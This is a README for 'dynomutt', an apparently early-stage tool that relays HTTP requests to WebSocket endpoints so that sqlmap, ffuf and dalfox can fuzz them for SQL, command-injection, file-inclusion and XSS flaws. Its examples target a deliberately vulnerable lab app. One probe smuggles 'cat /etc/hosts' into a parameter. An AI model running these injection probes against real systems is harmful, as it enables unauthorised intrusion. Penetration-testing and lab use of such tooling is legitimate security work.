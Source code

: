 # dynomutt

#### Asynchronous WebSocket Injection Middleware

![image](https://github.com/dualfade/dynomutt/assets/2522757/c017f4aa-dce0-4bff-9e69-ce77f726b0b1)

[![PyPI - Version](https://img.shields.io/pypi/v/dynomutt.svg)](https://pypi.org/project/dynomutt)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/dynomutt.svg)](https://pypi.org/project/dynomutt)

---

**Table of Contents**

- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Notes](#notes)
- [To Do](#todo)
- [Screenshots](#screenshots)
- [License](#license)

## Installation

```console
in development:
```

## Usage

```usage
hatch run default:python src/dynomutt/dynomutt.py -h
usage: dynomutt [-h] [-l LHOST] [-p LPORT] [-u URL] [-H HEADERS] [-d] [-v] [-k] [-t TIMEOUT] [--ms MATCH_STRING] [--te] [-o OUTFILE] [-e]

Asynchronous Websocket Injection Middleware

options:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        Listen Host
  -p LPORT, --lport LPORT
                        Listen Port
  -u URL, --url URL     Target WebSocket Url
  -H HEADERS, --headers HEADERS
                        Header `Name: Value, Name: Value`, separated by comma.
  -d, --debug           Enable Bottle Debug
  -v, --verbose         Enable Verbose Mode
  -k, --ignore-ssl      Ignore SSL Warnings
  -t TIMEOUT, --timeout TIMEOUT
                        WebSocket Timeout in seconds
  --ms MATCH_STRING     Match Response String
  --te                  Terminate on Match
  -o OUTFILE, --outfile OUTFILE
                        Write Output to File
  -e, --examples        Examples Menu
```

## Examples

```examples
hatch run default:python src/dynomutt/dynomutt.py -e

=> Dynomutt Examples:
[usage] dynomutt.py -l '127.0.0.1' -p '8082' -u 'ws://dvws.local:8080/reflected-xss'
[usage] dynomutt.py -l '127.0.0.1' -p '8082' -u 'ws://dvws.local:8080/authenticate-user-blind' -d -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 30
[usage] dynomutt.py -l '127.0.0.1' -p '8002' -u 'wss://dvws.local:8080/file-inclusion' -d -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c, User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -k -t 30
[usage] dynomutt.py -l '127.0.0.1' -p '8000' -u 'ws://dvws.local:8080/command-execution' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 30 -v --ms 'TJE\w.*?$' --te
[usage] dynomutt.py -l '127.0.0.1' -p '8000' -u 'ws://dvws.local:8080/file-inclusion' -d -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 5 -v --ms 'ro\w.*?$' -o /tmp/file_inclusion_fuzz.txt

=> HTTP Verb CRUD Operations:
[listener] http://127.0.0.1:8082/<path:path>
[listener] http://127.0.0.1:8082/param?data=<injection>

=> Sqlmap Example with Listener
python sqlmap.py -u 'http://127.0.0.1:8082/param?' --data='{"auth_user":"*","auth_pass":"YWRtaW4="}' --tamper base64encode --dbms mysql --risk 3 --level 5 --method POST

=> Ffuf using custom command file-inclusion wordlist
ffuf -X GET -u 'http://127.0.0.1:8082/pages/FUZZ' -w /tmp/0.txt -mc all -fc 500

=> Ffuf special char encoded injection, command injection test
pencode -input ${PWD}/specialchars.txt urlencode | ffuf -X GET -u 'http://127.0.0.1:8082/param?data=127.0.0.1FUZZcat%20/etc/hosts' -w - -mc all -fc 404 -t 3
ffuf -u 'http://127.0.0.1:8000/param?data=127.0.0.1FUZZ' -w ~/Github/custom_list/wordlists/SecLists/Fuzzing/command-injection-commix.txt -t 1 -rate 1

=> Dalfox reflected xss
dalfox -X GET url 'http://127.0.0.1:8000/param?data=Dalfox' --cookie 'PHPSESSID=sp9a9c746au3osa8maj53km312'

```

## Notes

- **This project in development, please use at own discretion.**
- A few highlights:

  - It's fast.
  - Dynomutt uses asyncio websockets.
  - Dynomutt uses bottle as middleware routing and an asynchronous gevent listener.
  - Two dedicated injection endpoints, one dynamic and one parameterized.
  - All HTTP verbs supported, main focus is WebSocket CRUD injection.
  - WebSocket Headers and Authorization schemes.
  - All initial testing has been done against OWASP dvws.
  - Additional testing (screenshots): [nodejs-websocket-sqli](https://github.com/rayhan0x01/nodejs-websocket-sqli)
  - More ?

- Up front; I am not a developer.
- There is no time to fool around with lots of semi working tools on a live engagement, which is how this
  project came to be.

## ToDo

- Needs testing against functinal entity with Authorization Tokens and Secure Socket Layer.
- Needs testing against modern wss:// ?token=
- Auto update index route.
- Burp raw file integration ?
- Fix XSS injection, as this sorta works.
- Probabaly a metric shit ton more, and as we go they say..

## Screenshots

```
Dynomutt Middleware Server --
hatch run default:python src/dynomutt/dynomutt.py -l '127.0.0.1' -p '8000' -u 'ws://localhost:8156/ws' -d -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 30

Sqlmap --
python sqlmap.py -u 'http://127.0.0.1:8000/param?' --data '{"employeeID":"*"}' --dbms mysql --risk 3 --level 5
```

![2023-08-12_21-23_1](https://github.com/dualfade/dynomutt/assets/2522757/1469d46e-6959-4867-a7e8-af35319c1883)
![2023-08-12_21-23](https://github.com/dualfade/dynomutt/assets/2522757/0be4b41d-768d-4eb2-a057-1ec3411dcd5c)

```
Dynomutt Middleware Server --
hatch run default:python src/dynomutt/dynomutt.py -l '127.0.0.1' -p '8000' -u 'ws://dvws.local:8080/file-inclusion' -d -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36' -t 5 -v --ms '\w.*:\w.*?$' --te -o /tmp/file_inclusion_fuzz.txt

ffuf --
pencode -input ~/Github/custom_list/wordlists/SecLists/Fuzzing/UnixAttacks.fuzzdb.txt urlencode | ffuf -u 'http://127.0.0.1:8000/param?data=pagesFUZZ' -w - -rate 30
```

![image](https://github.com/dualfade/dynomutt/assets/2522757/dab3bf9b-af79-462b-85d1-68769fa3d8a5)
![image](https://github.com/dualfade/dynomutt/assets/2522757/4138b4f2-601d-4c6c-9147-2e2482cd8c08)

## License

`dynomutt` is distributed under the terms of the [MIT](https://spdx.org/licenses/MIT.html) license.

[![Hatch project](https://img.shields.io/badge/%F0%9F%A5%9A-Hatch-4051b5.svg)](https://github.com/pypa/hatch)
